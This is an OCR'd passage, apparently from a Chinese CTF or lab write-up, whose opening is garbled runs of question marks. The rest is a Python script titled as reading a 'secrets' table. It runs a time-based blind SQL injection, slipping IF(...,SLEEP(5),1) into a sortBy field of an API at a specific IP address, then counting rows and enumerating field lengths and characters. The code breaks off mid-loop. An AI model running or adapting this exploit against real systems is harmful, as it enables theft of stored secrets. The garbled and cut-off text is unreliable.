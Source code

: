？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？

？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？

？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？

？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？





### 脚本4  查看 secrets 表的内容

```
import requests
import time

def test_sqli(payload):
    url = "http://113.45.189.144:5000/api/developer_utils/sorted_query"
    data = {
        "query": "%",
        "sortBy": f"name,IF({payload},SLEEP(5),1)",
        "order": "asc"
    }
    start = time.time()
    try:
        r = requests.post(url, json=data)
        elapsed = time.time() - start
        return elapsed > 4.5
    except:
        return False

def get_row_count():
    """获取secrets表的行数"""
    print("正在枚举secrets表的行数...")
    for count in range(0, 11):  # 假设最多10行
        payload = f"(SELECT COUNT(*) FROM secrets)={count}"
        if test_sqli(payload):
            print(f"secrets表有 {count} 行数据")
            return count
    return 0

def get_field_value(row_index, column_name, field_index):
    """获取指定行指定列的值"""
    print(f"正在枚举第{row_index+1}行{column_name}字段的值...")
    
    # 先获取字段值长度
    length = 0
    for len_val in range(0, 201):  # 假设字段值最长200字符
        payload = f"LENGTH((SELECT {column_name} FROM secrets LIMIT {row_index},1))={len_val}"
        if test_sqli(payload):
            length = len_val
            print(f"第{row_index+1}行{column_name}字段长度为: {length}")
            break
    
    if length == 0:
        return ""
    
    # 逐字符枚举字段值
    field_value = ""
    for pos in range(1, length + 1):
        for ascii_val in range(32, 127):  # 可打印字符
```